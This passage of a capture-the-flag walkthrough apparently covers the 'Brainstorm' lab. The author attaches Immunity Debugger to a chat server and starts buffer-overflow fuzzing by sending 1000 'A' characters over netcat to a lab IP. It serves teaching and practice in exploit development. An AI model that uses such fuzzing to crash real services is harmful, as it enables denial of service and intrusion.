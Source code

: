 Now we are set up for debugging. First make sure your chatserver is still running, then start Immunity and from the File menu chose Attach, then find the chatserver process in the list:

![brainstorm-immunityattach](/assets/images/2021-02-18-22-44-29.png)

Note in the bottom right corner it says Paused. You need to press F9 to run:

![brainstorm-immunitypaused](/assets/images/2021-02-18-23-00-24.png)

It's safe to assume we will be trying to use a buffer overflow to exploit the program, so let's connect from Kali to it again and try sending increasing numbers of characters until we crash it:

```text
root@kali:/home/kali/thm/brainstorm# python -c 'print "A" * 1000'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
<SNIP>
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

Try sending 1000 characters:

```text
root@kali:/home/kali/thm/brainstorm# nc -nv 192.168.0.16 9999
(UNKNOWN) [192.168.0.16] 9999 (?) open
Welcome to Brainstorm chat (beta)
Please enter your username (max 20 characters): AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
<SNIP>
AAAAAAAAAAAA
Write a message: 
```
